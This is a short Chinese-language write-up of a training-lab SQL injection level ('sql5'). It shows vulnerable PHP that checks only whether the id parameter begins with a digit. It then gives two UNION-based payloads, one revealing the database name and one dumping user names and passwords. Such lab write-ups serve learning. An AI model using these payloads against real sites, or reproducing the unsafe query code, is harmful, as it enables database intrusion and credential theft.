


# sql5

进入example5.php

源码
```php
<?php

  require_once('../header.php');
  require_once('db.php');
        if (!preg_match('/^[0-9]+/', $_GET["id"])) {
                die("ERROR INTEGER REQUIRED");
        }
        $sql = "SELECT * FROM users where id=";
        $sql .= $_GET["id"] ;

        $result = mysql_query($sql);

        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```
第五关是正则匹开头必须是数字开头否则就直接结束程序
emmmm
谜一般的操作
可以直接使用超过它字段最大数就可以了
直接来个100，指定超过最大字段数
payload1
```sql
example5.php?id=100 union select 1,2,database(),4,5
```

可以绕过
之后正常联合查询就行了

payload2
```sql
example5.php?id=100 union select 1,group_concat(name),group_concat(passwd),4,5 from users
```

拿到数据


| 请求方式 |            过滤方式            |           注入方式           |      闭合方式       |
| -------- | ------------------------------ | ---------------------------- | ------------------- |
| GET      | 使用正则匹配传参的开头是否是数字 | 超过最大字段数的数字，联合查询 | 数字型注入不需要闭合 |

过关^-^